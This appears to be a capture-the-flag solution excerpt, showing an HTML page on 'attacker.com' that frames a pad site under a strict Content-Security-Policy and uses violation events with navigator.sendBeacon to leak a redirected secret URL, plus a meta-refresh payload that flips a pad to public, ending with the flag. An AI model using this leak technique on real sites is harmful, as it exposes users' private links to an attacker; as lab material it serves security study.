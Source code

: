 ``https://attacker.com/attacker.html``
```html 
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="frame-src 'self' xn--pd-viaaa.space;">
    <title>TEST</title>
</head>

<body>
    <script>
        document.addEventListener('securitypolicyviolation', async function (event) {
            console.log(event)
            navigator.sendBeacon(location.href,event.blockedURI)

        });      
    </script>
    <iframe src="https://päääd.space/p/latest"></iframe>
</body>

</html>
```
``Second pad``
```html
<!-- to make pad public-->
<meta http-equiv="refresh" content="1; url=unique_id.xn--pd-viaaa.space?edit=isPublic">
```
## 🚩 Flag

``flag{hmmmmmmmmmXDD} ``
